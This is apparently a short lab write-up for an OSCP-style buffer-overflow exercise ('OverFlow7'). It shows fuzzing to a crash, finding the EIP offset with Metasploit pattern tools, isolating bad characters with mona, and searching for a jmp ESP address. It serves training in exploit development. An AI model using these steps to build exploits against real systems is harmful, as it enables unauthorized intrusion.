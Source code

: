 # OverFlow7

## Offset

```php
❯ python3 fuzzingBuff.py
Fuzzing with 100 bytes
.
.
.
Fuzzing crashed at 1400 bytes

```

```
❯ msf-pattern_create -l 1400
```

```php
❯ msf-pattern_offset -q 72423572
[*] Exact match at offset 1306

```

## Badchars

```php
!mona bytearray
!mona bytearray -cpb "\x00"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 011FFA18
!mona bytearray -cpb "\x00\x8c"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F0FA18
!mona bytearray -cpb "\x00\x8c\xae"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0107FA18
!mona bytearray -cpb "\x00\x8c\xae\xbe"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 0103FA18
!mona bytearray -cpb "\x00\x8c\xae\xbe\xfb"

!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 00F5FA18
```

```php
 "\x00\x8c\xae\xbe\xfb"
```

## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb  "\x00\x8c\xae\xbe\xfb"
```
